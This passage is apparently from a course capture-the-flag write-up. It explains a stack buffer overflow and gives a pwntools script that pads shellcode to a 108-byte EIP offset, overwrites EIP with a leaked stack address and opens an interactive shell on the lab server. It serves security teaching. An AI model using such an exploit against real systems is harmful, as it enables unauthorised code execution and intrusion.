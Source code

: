 ### **Writing the exploit in a cleaver way**

We see that the distance between the base address and the EIP is 108.

So our stategy will be:
* Given that we have the leaked stack base address, we will insert the shellcode, crafted using python pwn tools package, then overwrite the buffer until we get to **EIP** and then overwrite **EIP** with the leaked base address, therefore redirecting our code to the shellcode, that is in the leaked stack base address.

```python
    from pwn import *
    import re

    from pwnlib.adb.adb import shell

    #p = process("./program")

    e = context.binary = ELF("./program")
    p = remote("ctf-fsi.fe.up.pt",4001)

    #gdb.attach(p.pid)

    shellcode = asm(shellcraft.sh())

    p.recvuntil("buffer is ")

    stack_base = int(p.recv(10),16)

    payload = asm(shellcraft.sh())

    payload = payload.ljust(108,b'A')

    payload += p32(stack_base)

    p.sendlineafter("input:",payload)
    p.interactive()
```
